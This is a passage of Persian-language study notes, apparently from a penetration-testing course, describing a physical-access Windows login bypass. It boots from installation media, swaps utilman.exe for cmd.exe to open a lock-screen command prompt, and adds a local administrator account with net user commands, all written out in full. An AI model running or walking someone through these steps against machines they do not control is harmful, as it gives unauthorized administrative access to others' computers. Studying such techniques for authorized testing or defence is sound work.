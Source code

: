 ```powershell 
```
	![[Pasted image 20240626184244.png]]
10. `If` Windows `have Online Account` for Authentication, we can also `Add New User` by run the following Commands
	1. اگر ویندوز با اکانت آنلاین احراز هویت شود میتوانیم یک یوزر محلی جدید اضافه کنیم تا با استفاده از آن بتوانیم به ویندوز مورد نظر بدون داشتن پسورد لاگین کنیم.
	2. با استفاده از کامند `net user USERNAME PASSWORD -add` یک یوزر جدید اضافه میکنیم.
	3. سپس برای بالا بردن دسترسی یوزر با استفاده از کامند `net localgroup administrators USERNAME -add` آنرا به گروه `Administrators` اضافه میکنیم.
	4. برای اینکار باید دستورات زیر را به ترتیبی که در تصویر میبینید اجرا کنیم:
		1. ![[Pasted image 20240626184636.png]]
10. Step 10 Commands =>
```powershell
net user USERNAME PASSWORD /add #Add new User
net localgroup administrators USERNAME /add #Add new User to Administrators Group

net user davoodya 12945 /add
net localgroup administrators davoodya /add
```
	![[Pasted image 20240626185708.png]]
##### Practical Demo
0. ساخت فلش Bootable از فایل ISO نصب ویندوز
	1. دانلود فایل ISO نصب ویندوز 10 یا ویندوز 11
	2. دانلود Rufus Portable و اجرای آن
	3. تنظیمات Rufus برای ساخت فلش بوتیبل
		1. اگر ماشین هدف سخت افزار نسل جدید است میتوانیم پارتیشن را `GPT` انتخاب کنیم:
			1. ![[Pasted image 20240626195404.png]]
	4. بر روی OK کلیک میکنیم تا فرآیند شروع شود.
1. بوت کردن ویندوز با Windows Installation USB Disk
	1. ماشین را ریستارت میکنیم و سپس آنرا با USB Disk که فایل نصب ویندوز در آن است بوت میکنیم.
	2. سپس در صفحه نصب ویندوز `Repair your Computer` را انتخاب میکنیم و به مسیر زیر میرویم:
		1. ![[Pasted image 20240626195636.png]]
	3. `Troubleshoot => Advanced Options => Command Prompt`
2. ابتدا باید در CMD بوسیله کامند `DISKPART` به درایو که ویندوز بر روی آن نصب است حرفی را اختصاص دهیم.
```powershell
DISKPART
DISKPART> LIST VOLUME
DISKPART> SELECT VOLUME 0
DISKPART> ASSIGN LETTER C
DISKPART> EXIT
x:\Sources>c:
C:\>
```
	![[Pasted image 20240626200208.png]]
3. حال به پوشه `C:/Windows/System32/` میرویم تا عملیات جابجای CMD با utilman را انجام دهیم:
```powershell
X:\Sources>c:
C:\> cd windows\system32
C:\Windows\System32> ren utilman.exe utilmanold.exe
C:\Windows\System32> copy cmd.exe utilman.exe
```
	![[Pasted image 20240626200649.png]]
4. اگر کامند CD بطور مستقیم کار نکرد میتوانیم عملیات Rename و Copy را بطور مستقیم استفاده کنیم:
```powershell
#if cd command not working rename and copy files directly
ren C:\Windows\System32\utilman.exe utilman2.exe
copy C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
```
5. حال کافیست CMD را ببندیم و ماشین را Shutdown کنیم و سپس ماشین را با ویندوز اصلی بالا بیاوریم.
	1. ![[Pasted image 20240626200751.png]]
2. حال در پنجره Lock Screen بر روی آیکون Accessibility کلیک میکنیم تا CMD باز شود: